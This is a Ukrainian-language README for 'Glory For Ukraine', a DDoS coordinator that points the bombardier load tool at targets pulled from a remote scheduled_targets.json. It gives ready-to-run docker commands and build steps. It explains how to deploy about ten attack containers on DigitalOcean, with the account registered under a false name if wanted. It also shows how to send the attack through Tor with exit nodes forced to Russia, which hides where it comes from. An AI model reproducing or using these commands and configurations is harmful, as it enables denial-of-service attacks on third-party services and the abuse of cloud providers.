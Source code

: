 # Glory For Ukraine

DDOS координатор, використовуючий bombardier на один з хостів указаний в scheduled_targets.json, скачаний з https://gloryforukraine.pages.dev/scheduled_targets.json

## Як використати

Рабоча станція (Windows, Linux, MacOS):
 - https://github.com/arhelmus/gloryforukraine/releases/download/v0.1.0/gloryforukraine.zip

Docker:

Запуск через докер: `docker run --env SCHEDULED_TARGETS_URL=https://gloryforukraine.pages.dev/scheduled_targets.json --env PARALLEL_FACTOR=5 --cpus=".7" --rm -it archdev/gloryforukraine`

Билд кода:

- install NodeJS 16+
- git clone
- cd gloryforukraine
- npm i
- `./scripts/launch.sh` or `.\scripts\launch.bat`

# Як засетапи Gloryforukraine на Digigal Ocean App Platform

1. Зареєструйте аккаунт на Digital Ocean:
    [Посилання за рефералом](https://m.do.co/c/aa9c8e1fc61f) - дає $100 на рахунок
    По особистим данним - будь яке ім'я (можна не своє) АЛЕ: робочий імейл до якого у вас є доступ - він потрібен щоб залогінитись по лінку який прийде вам на імейл (2FA)
    Також вам потрібна робоча банківська карта (укр карти Моно на Привата раніше працювали, віртуальні карти теж UK банків теж працюють)
    (Гроші НЕ БУДУТЬ зніматись відразу, лише через місяц)
2. Створіть новий апчик в Create > Apps
3. Виберіть Docker Hub
4. в Image введіть: `archdev/gloryforukraine`, tag - залишіть пустим (`latest`)
5. ОБОВ'ЯЗКОВО: Type > **Worker** (по замовчуванню там Web Service)
6. Також додайте `Environment Variables`: `SCHEDULED_TARGETS_URL=https://gloryforukraine.pages.dev/scheduled_targets.json` та `PARALLEL_FACTOR=5`
7. Виберіть Регіон - можна Європу або Азію - будь який
8. Finalise and Launch - виберіть аккаунт Pro - і в Containers: Pro - штук 10 має вистачити

# Як використовувати Gloryforukraine з TOR (атака буде йти с росiйских IP)
1. Встановiть TOR. `sudo apt install tor`
2. Заредагуйте конфіг /etc/tor/torrc:
    `sudo vi /etc/tor/torrc`
    Розкоментуйте `#ControlPort 9051`

    Знайдіть `#CookieAuthentication 1` Розкоментуйте, та змініть 1 на 0.

    В кінець файла додайте
    `ExitNodes {RU}`
    `StrictNodes 1`

 4. Перезавантажте сервіс ТОР `sudo /etc/init.d/tor restart`.


5. Готово! Теперь ви можете запустити скрипт через torify. Наприклад: `sudo torify docker run --env SCHEDULED_TARGETS_URL=https://gloryforukraine.pages.dev/scheduled_targets.json --env PARALLEL_FACTOR=5 --cpus=".7" --rm -it archdev/gloryforukraine`.
